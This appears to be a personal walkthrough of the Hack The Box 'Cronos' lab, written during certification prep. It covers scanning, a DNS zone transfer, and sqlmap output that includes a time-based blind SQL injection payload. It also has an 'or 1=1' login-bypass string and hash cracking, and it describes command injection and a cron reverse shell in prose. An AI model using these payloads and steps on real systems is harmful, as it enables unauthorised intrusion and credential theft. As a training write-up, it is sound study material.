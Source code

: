 # Enumerate
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-22 08:00 EDT
Nmap scan report for 10.10.10.13
Host is up (0.026s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.71 seconds

* Exploits for those:
22 - probably not, but started hydra anyway with www-data user
53 - maybe privesc
	[X] the buffer overflow c file (19111/2) didn't seem to work. Definitely wrong kernel version. 
80 - doesn't look like it

* Web pages
web page is the default ubuntu page
dirbuster 

* Scan more
every port found nothing new

* DNS Recon
dnsrecon tool doesn't seem to get a response from server, reset? 
I can use nslookup to that ns and get responses
Seems like the dnsrecon should be getting responses, and I can't reset the server because it says it's under maintenance. That's probably the right way though. Try later. 
Host command worked for zone transfer.
```
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Cronos/exploits$ host -l 10.10.10.13 10.10.10.13
Using domain server:
Name: 10.10.10.13
Address: 10.10.10.13#53
Aliases: 
13.10.10.10.in-addr.arpa domain name pointer ns1.cronos.htb.
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Cronos/exploits$ host -l cronos.htb 10.10.10.13
Using domain server:
Name: 10.10.10.13
Address: 10.10.10.13#53
Aliases: 
cronos.htb name server ns1.cronos.htb.
cronos.htb has address 10.10.10.13
admin.cronos.htb has address 10.10.10.13
ns1.cronos.htb has address 10.10.10.13
www.cronos.htb has address 10.10.10.13
```


# Access
If I set my dns to use 10.10.10.13 I can then go to admin.cronos.htb and get a different web page. No idea if this is what the goal is but given that it's an http page, probably.   
Intercept with burp and run sqlmap    
```
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Cronos/exploits$ sqlmap -r burp_intercept.txt --dbms=mysql --dump
...
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 64 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 7121 FROM (SELECT(SLEEP(5)))aNcV) AND 'bpvH'='bpvH&password=a
---
```
Not user how the time based blind works but doesn't look like something I can do without the tool?   
That took forever but quickly showed that there's admin db with users table with username and password columns.   
```
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Cronos/exploits$ sqlmap -r burp_intercept.txt --dbms=mysql -D admin -T users -C username,password
```
For some reason this didn't give any results. Back to --dump I guess. 
Eventually dumps PW
```
+------+----------+----------------------------------+
| id   | username | password                         |
+------+----------+----------------------------------+
| 1    | admin    | $ADMINHASH                       |
+------+----------+----------------------------------+
```
Crack with John
```
/sbin/john -w /usr/share/wordlists/rockyou.txt ../hashes.txt --format=Raw-MD5
```

Got a hash that didn't work on the admin page or on ssh...    
	tried all combos of root/admin/www-data with that reverse hash and the hash itself   
lol wtf I looked up the md5 reverse and it totally wasn't right what John told me. John.pot file shows that was a different hash, no idea what happened.    
No idea what to do with this now.    
dirb on admin page     
* empty config.php      
* nothing else useful    
GDI if I go to www.cronos.htb, there's a totally different page to view.  
dirb on www page  
* /js/ page is index with app.js  
   
That web page is running laravel, any exploits?  
* none that worked. Tried the msf one and the python ones.   

Well I'm confused. Time to look at a writeup.  
WOW, apparently I can just sqli directly through that admin login page.  
* admin' or '1'='1'# in both fields
* found the payloadallthethingsrepo. Ading to my tools folder. 

Have the net tool page.  
Vulnerable to command injection. Get a shell.  
Read user Noulis txt file.  

# Escalate
linpeas  
* db password line?  define('DB_PASSWORD', '<>');
* also has lines about localhost 3306 homestead database  
```
/var/www/laravel/.env:APP_NAME=Laravel                                                                                                                                                                           
/var/www/laravel/.env:DB_CONNECTION=mysql
/var/www/laravel/.env:DB_DATABASE=homestead
/var/www/laravel/.env:DB_HOST=127.0.0.1
/var/www/laravel/.env:DB_PORT=3306
/var/www/laravel/.env:DB_USERNAME=homestead
```  
Can't use that for anything I guess. Wouldn't let me connect locally.  
See that cat /etc/crontab shows an application being run.  
Add a reverse shell to it and replace that file and get shell.  


# Tags
* sqlmap
* dns
* zone transfer
* sql injection, sqli


# Lessons
Try some sqli you moron.  
Even if I solve something, it's probably worth reading the writeups to see if other peoples TTPs that I might want to be aware of.  
